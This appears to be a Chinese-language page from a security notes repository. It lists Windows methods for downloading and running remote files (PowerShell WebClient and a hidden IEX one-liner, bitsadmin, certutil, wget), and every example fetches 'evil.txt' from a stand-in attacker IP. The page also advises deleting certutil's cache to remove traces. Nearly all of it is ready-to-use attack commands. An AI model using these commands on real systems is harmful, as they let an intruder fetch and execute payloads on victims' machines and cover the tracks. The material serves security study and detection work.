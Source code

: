 ------

**1、PowerShell**

PowerShell是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用。

远程下载文件保存在本地：

```
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')
```

远程执行命令：

```
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-1.png)

**2、Bitsadmin**

bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。

```
bitsadmin /transfer n http://192.168.28.128/imag/evil.txt d:\test\1.txt
```

输入以上命令，成功下载文件。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-2.png)

**3、certutil**

用于备份证书服务，支持xp-win10都支持。由于certutil下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

注：缓存目录为："%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content"

```
#下载文件
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php
#删除缓存
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-3.png)

**4、wget**

Windows环境下，可上传免安装的可执行程序wget.exe到目标机器，使用wget下载文件。

wget.exe下载：https://eternallybored.org/misc/wget/

```
wget -O "evil.txt" http://192.168.28.128/imag/evil.txt
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/20200413-4.png)
